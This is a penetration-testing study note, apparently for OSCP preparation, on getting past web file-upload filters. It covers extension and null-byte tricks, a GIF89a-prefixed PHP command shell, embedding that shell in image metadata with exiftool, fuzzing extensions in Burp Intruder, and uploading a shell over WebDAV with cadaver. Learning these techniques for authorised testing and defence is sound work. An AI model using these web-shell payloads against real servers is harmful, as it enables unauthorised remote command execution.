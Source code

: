 ```yaml
---
title: "File Upload"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - file upload
toc: true
hide_title: true
excerpt: ""
---
```


## Bypass file upload filtering

- Rename it
	- upload it as shell.php.jpg
- Blacklisting bypass, change extension
    - `php phtml, .php, .php3, .php4, .php5, and .inc`
	- bypassed by uploading an unpopular php extensions. such as: `pht, phpt, phtml, php3, php4, php5, php6`
    - asp `asp, .aspx`
    - perl `.pl, .pm, .cgi, .lib`
    - jsp `.jsp, .jspx, .jsw, .jsv, and .jspf`
    - Coldfusion `.cfm, .cfml, .cfc, .dbm`
- Whitelisting bypass
    - Bypassed by uploading a file with some type of tricks,
    - Like adding a null byte injection like (`shell.php%00.gif` ).
        Or by using double extensions for the uploaded file like ( `shell.jpg.php`)
- GIF89a;
    - If they check the content. Basically you just add the text "GIF89a;" before you shell-code.
```
GIF89a;            
<?            
system($_GET['cmd']);//or you can insert your complete shell code            
?>
```

### ExifTool

```
1. <?php system($_GET['cmd']); ?>  //shell.php

2. exiftool "-comment<=shell.php" malicious.png

3. strings malicious.png | grep system
```

## Bruteforcing extensions

- We can fuzz the extensions to find out which extensions are not blocked,
- we will use burpsuite for this

Some useful extensions -
- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
- **Flash**: _.swf_
- **Perl**: _.pl, .cgi_
- **Erlang Yaws Web Server**: _.yaws_

Now make list of extensions and add it to **intruder** to FUZZ and check out which one is worked.

Note: Make sure **url-encodin**g is unchecked in payload section, as it will unless encode our dot and we will not get desire results.

## WebDAV

We can use `cadaver` to upload the shell

```
cadaver http://192.168.1.103/dav/
put /tmp/shell.php
```
